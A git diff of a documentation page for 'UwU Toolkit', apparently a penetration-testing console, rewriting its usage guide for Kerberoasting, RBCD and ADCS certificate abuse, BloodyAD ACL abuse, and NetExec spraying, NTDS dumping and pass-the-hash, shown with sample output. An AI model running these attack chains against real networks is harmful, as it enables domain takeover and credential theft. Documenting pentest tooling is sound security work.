

Before and after one commit to p3ta00/p3ta00.github.io, a Jekyll site: the page built from uwu-toolkit/integrations.md, in a window 1280 px wide and 1400 px high, scrolled down 4589 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Rewrite tool sections as Metasploit-style user guide
Show use/set/options/run workflows with globals, not raw CLI commands.
Impacket, BloodyAD, Certipy, NetExec all use proper module patterns.

Co-Authored-By: Claude Opus 4.6 <noreply@anthropic.com>

````diff
--- a/uwu-toolkit/integrations.md
+++ b/uwu-toolkit/integrations.md
@@ -104,240 +104,305 @@ ret, stdout, stderr = self.run_in_exegol(
 
 ## Impacket
 
-UwU Toolkit wraps [Impacket](https://github.com/fortra/impacket) through dedicated modules. Tools are auto-detected locally or inside Exegol — no manual path configuration needed.
+[Impacket](https://github.com/fortra/impacket) tools are wrapped as UwU modules. Set your globals once, then switch between modules without re-entering credentials.
+
+### Setup
+
+```bash
+# Set globals once for all Impacket modules
+uwu > setg RHOSTS 10.10.10.100
+uwu > setg DOMAIN corp.local
+uwu > setg USER admin
+uwu > setg PASS Password123
+```
 
 ### Modules
 
 | Module | Description |
 |--------|-------------|
-| `ad/kerberoast` | Kerberoast — find and crack service account tickets |
-| `ad/asreproast` | AS-REP Roast — crack accounts without pre-auth |
+| `ad/kerberoast` | Kerberoast — extract TGS tickets for offline cracking |
+| `ad/asreproast` | AS-REP Roast — extract hashes for accounts without pre-auth |
 | `ad/targeted_kerberoast` | Kerberoast a specific user via SPN manipulation |
-| `ad/kerb_userenum` | Enumerate valid usernames via Kerberos |
+| `ad/kerb_userenum` | Enumerate valid domain usernames via Kerberos |
 | `ad/delegation_exploit` | Exploit constrained/unconstrained delegation |
-| `ad/rbcd_auto` | Full RBCD attack chain (add computer, set delegation, get ticket) |
+| `ad/rbcd_auto` | Full RBCD attack chain (add computer, set delegation, impersonate) |
 
-### Examples
+### Kerberoast
 
 ```bash
-# Kerberoast
 uwu > use ad/kerberoast
-uwu kerberoast > set RHOSTS 10.10.10.100
-uwu kerberoast > set DOMAIN corp.local
-uwu kerberoast > set USER admin
-uwu kerberoast > set PASS Password123
+uwu kerberoast > options
+
+  Name          Current     Required  Description
+  ----          -------     --------  -----------
+  RHOSTS        10.10.10.1  yes       Domain Controller IP
+  DOMAIN        corp.local  yes       Domain name
+  USER          admin       yes       Domain username
+  PASS          Password123 yes       Domain password
+  TARGET_USER                no       Specific user to kerberoast
+  OUTPUT        kerberoast  no       Output file for hashes
+  AUTO_CRACK    no           no       Automatically crack via SSH
+
+uwu kerberoast > run
+```
+
+### AS-REP Roast
+
+```bash
+uwu > use ad/asreproast
+uwu asreproast > run    # globals already set
+```
+
+### Delegation Exploit
+
+```bash
+uwu > use ad/delegation_exploit
+uwu delegation_exploit > options
+
+  Name              Current       Required  Description
+  ----              -------       --------  -----------
+  RHOSTS            10.10.10.1    yes       Domain Controller IP
+  DOMAIN            corp.local    yes       Domain name
+  USER              admin         yes       Domain username
+  PASS              Password123   yes       Domain password
+  DELEGATION_TYPE   auto          no       auto, constrained, unconstrained, rbcd
+  TARGET                          no       Specific delegation target
+  IMPERSONATE       administrator no       User to impersonate
+  ACTION            auto          no       auto, enumerate, exploit
+
+uwu delegation_exploit > set TARGET svc_sql
+uwu delegation_exploit > run
+```
+
+### RBCD Attack Chain
+
+```bash
+uwu > use ad/rbcd_auto
+uwu rbcd_auto > set TARGET DC01$
+uwu rbcd_auto > set IMPERSONATE administrator
+uwu rbcd_auto > run
+
+[*] Step 1: Adding fake computer FAKECOMP$...
+[+] Computer added
+[*] Step 2: Setting RBCD on DC01$...
+[+] Delegation configured
+[*] Step 3: Requesting service ticket as administrator...
+[+] Ticket saved to /tmp/rbcd_auto/administrator.ccache
+```
+
+### Auto-Crack Integration
+
+Kerberoast and AS-REP modules can auto-crack hashes via SSH:
+
+```bash
+uwu kerberoast > set AUTO_CRACK yes
+uwu kerberoast > set SSH_HOST gpu-box
+uwu kerberoast > set WORDLIST /opt/rockyou.txt
 uwu kerberoast > run
 
-# AS-REP Roast
-uwu > use ad/asreproast
-uwu asreproast > set RHOSTS 10.10.10.100
-uwu asreproast > set DOMAIN corp.local
-uwu asreproast > run
-
-# RBCD attack chain
-uwu > use ad/rbcd_auto
-uwu rbcd_auto > set RHOSTS 10.10.10.100
-uwu rbcd_auto > set DOMAIN corp.local
-uwu rbcd_auto > set USER admin
-uwu rbcd_auto > set PASS Password123
-uwu rbcd_auto > set TARGET_COMPUTER DC01$
-uwu rbcd_auto > run
+[+] 3 hashes extracted
+[*] Sending to gpu-box for cracking...
+[+] Cracked: svc_sql:Password1
 ```
-
-### MCP Tools
-
-When using UwU Toolkit via the MCP server, Impacket tools are available directly:
-
-| MCP Tool | Description |
-|----------|-------------|
-| `impacket_secretsdump` | Dump SAM/LSA/NTDS credentials |
-| `impacket_psexec` | Remote execution via SMB service |
-| `impacket_wmiexec` | Remote execution via WMI |
-| `impacket_smbexec` | Remote execution via SMB |
-| `impacket_dcomexec` | Remote execution via DCOM |
-| `impacket_getTGT` | Request a Kerberos TGT |
-| `impacket_getST` | Request a service ticket (S4U2Self/Proxy) |
-| `impacket_GetUserSPNs` | Kerberoast |
-| `impacket_GetNPUsers` | AS-REP Roast |
-| `impacket_addcomputer` | Add a machine account |
-| `impacket_rbcd` | Manage RBCD delegation |
-| `impacket_dacledit` | Edit DACLs on AD objects |
-| `impacket_findDelegation` | Find delegation configurations |
-| `impacket_mssqlclient` | Connect to MSSQL |
-| `impacket_smbclient` | Connect to SMB shares |
-| `impacket_lookupsid` | SID/RID brute-force enumeration |
-| `impacket_GetLAPSPassword` | Read LAPS passwords |
-| `impacket_GetGPPPassword` | Extract GPP passwords from SYSVOL |
 
 ---
 
 ## BloodyAD
 
-UwU Toolkit integrates [BloodyAD](https://github.com/CravateRouge/bloodyAD) for ACL enumeration and abuse.
+[BloodyAD](https://github.com/CravateRouge/bloodyAD) is wrapped as a UwU module for ACL enumeration and abuse. Globals provide the authentication — you only set the target-specific options.
 
 ### Module
 
 ```bash
 uwu > use ad/bloodyad_validate
-uwu bloodyad_validate > set RHOSTS 10.10.10.100
-uwu bloodyad_validate > set DOMAIN corp.local
-uwu bloodyad_validate > set USER admin
-uwu bloodyad_validate > set PASS Password123
+uwu bloodyad_validate > options
+
+  Name          Current      Required  Description
+  ----          -------      --------  -----------
+  RHOSTS        10.10.10.1   yes       Domain Controller IP
+  DOMAIN        corp.local   yes       Domain name
+  USER          admin        yes       Domain username
+  PASS          Password123  yes       Domain password
+  TARGET_USER                no       Target user for object queries
+  TARGET_GROUP               no       Target group for membership queries
+  TARGET_OU                  no       Target OU for children queries
+  MODE          read         no       Test mode: tools_only, read, full
+
+uwu bloodyad_validate > set MODE read
 uwu bloodyad_validate > run
+
+[*] Testing BloodyAD read operations...
+[+] get writable: 12 writable objects found
+[+] get object admin: attributes retrieved
+[+] get membership admin: 3 groups
 ```
 
-### MCP Tool
-
-The `bloodyad` MCP tool exposes all BloodyAD actions:
-
-| Action | Subcommands | Use |
-|--------|-------------|-----|
-| `get` | `writable`, `owned`, `object`, `membership`, `children`, `search` | Enumerate ACLs and objects |
-| `add` | `genericAll`, `dcsync`, `groupMember`, `computer`, `shadowCredentials`, `rbcd` | Grant permissions |
-| `set` | `password`, `owner`, `object`, `uac` | Modify objects |
-| `remove` | `genericAll`, `dcsync`, `groupMember` | Revoke permissions |
-
-### Common Operations
+### Full ACL Abuse Mode
 
 ```bash
-# Find what you can write to
-uwu > !bloodyAD -u user -p pass -d corp.local --host 10.10.10.100 get writable
+uwu bloodyad_validate > set MODE full
+uwu bloodyad_validate > set TARGET_USER victim
+uwu bloodyad_validate > set TARGET_GROUP "Domain Admins"
+uwu bloodyad_validate > run
 
-# Grant DCSync rights
-uwu > !bloodyAD -u user -p pass -d corp.local --host 10.10.10.100 add dcsync TARGET TRUSTEE
-
-# Add user to group
-uwu > !bloodyAD -u user -p pass -d corp.local --host 10.10.10.100 add groupMember GROUP USER
-
-# Force password reset
-uwu > !bloodyAD -u user -p pass -d corp.local --host 10.10.10.100 set password TARGET 'NewPass!'
-
-# Shadow Credentials
-uwu > !bloodyAD -u user -p pass -d corp.local --host 10.10.10.100 add shadowCredentials TARGET
+[*] Testing BloodyAD write operations...
+[+] add groupMember: victim added to Domain Admins
+[+] set password: victim password reset
+[+] add shadowCredentials: key credential added
 ```
 
 ---
 
 ## Certipy
 
-UwU Toolkit wraps [Certipy](https://github.com/ly4k/Certipy) for ADCS enumeration and exploitation with modules for discovery, exploitation, and full automation.
+[Certipy](https://github.com/ly4k/Certipy) is wrapped in three modules for ADCS — from discovery to full exploitation. Globals handle authentication.
 
 ### Modules
 
 | Module | Description |
 |--------|-------------|
-| `ad/certipy_find` | Find vulnerable ADCS templates |
+| `ad/certipy_find` | Discover vulnerable ADCS templates |
 | `ad/certipy_exploit` | Request certs and authenticate as target users |
-| `ad/adcs_auto` | Automated scan + exploit (ESC1/2/3/6/9) |
+| `ad/adcs_auto` | Automated end-to-end scan + exploit (ESC1/2/3/6/9) |
 
-### Examples
-
-**Find vulnerable templates:**
+### Find Vulnerable Templates
 
 ```bash
 uwu > use ad/certipy_find
-uwu certipy_find > set RHOSTS 10.10.10.100
-uwu certipy_find > set DOMAIN corp.local
-uwu certipy_find > set USER admin
-uwu certipy_find > set PASS Password123
+uwu certipy_find > options
+
+  Name             Current       Required  Description
+  ----             -------       --------  -----------
+  RHOSTS           10.10.10.1    yes       Domain Controller IP
+  DOMAIN           corp.local    yes       Domain name
+  USER             admin         yes       Domain username
+  PASS             Password123   yes       Domain password
+  VULNERABLE_ONLY  yes           no       Only show vulnerable templates
+  OUTPUT           certipy_out   no       Output file prefix
+
 uwu certipy_find > run
+
+[*] Enumerating ADCS templates...
+[+] CA: CORP-DC01-CA
+[+] ESC1: WebServer — enrollee supplies SAN
+[+] ESC4: DevTemplate — tyrion has WritePKIEnrollmentFlag
 ```
 
-**Exploit ESC1:**
+### Exploit a Vulnerable Template
 
 ```bash
 uwu > use ad/certipy_exploit
-uwu certipy_exploit > set RHOSTS 10.10.10.100
-uwu certipy_exploit > set DOMAIN corp.local
-uwu certipy_exploit > set USER admin
-uwu certipy_exploit > set PASS Password123
-uwu certipy_exploit > set CA CORP-CA
-uwu certipy_exploit > set TEMPLATE VulnTemplate
+uwu certipy_exploit > set CA CORP-DC01-CA
+uwu certipy_exploit > set TEMPLATE WebServer
 uwu certipy_exploit > set TARGET_USER administrator
 uwu certipy_exploit > run
+
+[*] Requesting certificate for administrator@corp.local...
+[+] Certificate saved to administrator.pfx
+[*] Authenticating with certificate...
+[+] Got NT hash for administrator
 ```
 
-**Automated full chain:**
+### Automated Full Chain
 
 ```bash
 uwu > use ad/adcs_auto
-uwu adcs_auto > set RHOSTS 10.10.10.100
-uwu adcs_auto > set DOMAIN corp.local
-uwu adcs_auto > set USER admin
-uwu adcs_auto > set PASS Password123
-uwu adcs_auto > run
+uwu adcs_auto > run    # globals already set
+
+[*] Phase 1: Scanning for vulnerable templates...
+[*] Phase 2: Best path: ESC1 via WebServer
+[*] Phase 3: Requesting cert as administrator...
+[+] Domain Admin hash obtained
 ```
-
-### MCP Tools
-
-| MCP Tool | Description |
-|----------|-------------|
-| `certipy_find` | Enumerate templates and find ESC vulnerabilities |
-| `certipy_req` | Request certificates with alternate UPN/DNS |
-| `certipy_auth` | Authenticate with a PFX certificate to get NT hash or TGT |
-| `certipy_shadow` | Shadow Credentials attack (add key creds, request cert, authenticate) |
-
-### Supported ESC Types
-
-ESC1, ESC2, ESC3, ESC6, ESC9 — the `adcs_auto` module handles all of these end-to-end.
 
 ---
 
 ## NetExec
 
-UwU Toolkit integrates [NetExec](https://github.com/Pennyw0rth/NetExec) (nxc) for multi-protocol credential testing and enumeration. Available as both a console shortcut and MCP tool.
+[NetExec](https://github.com/Pennyw0rth/NetExec) is available as both a full UwU module and a console shortcut. The module uses the same `set`/`run` workflow as everything else.
+
+### Module
+
+```bash
+uwu > use ad/netexec
+uwu netexec > options
+
+  Name                Current       Required  Description
+  ----                -------       --------  -----------
+  RHOSTS              10.10.10.1    yes       Target host(s) - IP, range, or CIDR
+  DOMAIN              corp.local    no       Domain name
+  USER                admin         no       Username or user file
+  PASS                Password123   no       Password, hash, or password file
+  PROTOCOL            smb           no       smb, ldap, winrm, rdp, mssql, ssh, wmi
+  ACTION              check         no       check, shares, users, groups, sessions, ...
+  AUTH_TYPE            password      no       password, hash, aesKey
+  EXECUTE                           no       Command to execute on target
+  EXEC_TYPE            cmd          no       cmd or powershell
+  NXC_MODULE                        no       NetExec module to run (-M)
+  NXC_MODULE_OPTIONS                no       Module options (key=value)
+  CONTINUE_ON_SUCCESS  no           no       Continue after finding valid creds
+
+uwu netexec > set ACTION shares
+uwu netexec > run
+
+  SMB  10.10.10.100  CORP  [+] admin:Password123
+  SMB  10.10.10.100  CORP  ADMIN$     READ,WRITE
+  SMB  10.10.10.100  CORP  C$         READ,WRITE
+  SMB  10.10.10.100  CORP  SYSVOL     READ
+```
+
+### Credential Spraying
+
+```bash
+uwu netexec > set RHOSTS 10.10.10.0/24
+uwu netexec > set USER users.txt
+uwu netexec > set PASS passwords.txt
+uwu netexec > set CONTINUE_ON_SUCCESS yes
+uwu netexec > set ACTION check
+uwu netexec > run
+```
+
+### Remote Execution
+
+```bash
+uwu netexec > set ACTION execute
+uwu netexec > set EXECUTE "whoami /all"
+uwu netexec > run
+```
+
+### NTDS Dump
+
+```bash
+uwu netexec > set ACTION ntds
+uwu netexec > run
+```
+
+### LAPS via Module
+
+```bash
+uwu netexec > set PROTOCOL ldap
+uwu netexec > set NXC_MODULE laps
+uwu netexec > set LAPS_COMPUTER DC01
+uwu netexec > run
+```
+
+### Pass-the-Hash
+
+```bash
+uwu netexec > set AUTH_TYPE hash
+uwu netexec > set PASS aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0
+uwu netexec > set ACTION check
+uwu netexec > run
+```
 
 ### Console Shortcut
 
-The `nxc` command is available directly in the UwU console:
+The `nxc` command also works directly for quick one-off checks:
 
 ```bash
-# Validate credentials
-uwu > nxc smb 10.10.10.100 -u admin -p Password123 -d corp.local
-
-# Enumerate shares
 uwu > nxc smb 10.10.10.100 -u admin -p Password123 --shares
-
-# Enumerate users
-uwu > nxc smb 10.10.10.100 -u admin -p Password123 --users
-
-# Spray credentials
-uwu > nxc smb 10.10.10.0/24 -u users.txt -p passwords.txt --continue-on-success
-
-# Execute commands
-uwu > nxc smb 10.10.10.100 -u admin -p Password123 -x "whoami"
-
-# Dump NTDS
-uwu > nxc smb 10.10.10.100 -u admin -p Password123 --ntds
-
-# Read LAPS
 uwu > nxc ldap 10.10.10.100 -u admin -p Password123 -M laps
-
-# Pass-the-hash
-uwu > nxc smb 10.10.10.100 -u admin -H aad3b435:31d6cfe0d16ae931b73c59d7e0c089c0
 ```
-
-### Common Actions
-
-| Action | Description |
-|--------|-------------|
-| `--shares` | List SMB shares with access levels |
-| `--users` | Enumerate domain users |
-| `--groups` | Enumerate domain groups |
-| `--sessions` | List active sessions |
-| `--sam` / `--lsa` / `--ntds` | Dump credentials |
-| `--rid-brute` | RID brute-force user enumeration |
-| `--pass-pol` | Dump password policy |
-| `-x "cmd"` / `-X "cmd"` | Execute cmd / PowerShell |
-| `-M module` | Run a NetExec module (laps, gmsa, spider_plus, etc.) |
-
-### Protocols
-
-SMB, LDAP, WinRM, RDP, MSSQL, SSH, WMI
-
-### MCP Tool
-
-The `netexec` MCP tool supports all protocols and actions with parameters for `target`, `protocol`, `domain`, `username`, `password`, `hashes`, `action`, `module`, `execute`, and more.
 
 ---
 
````
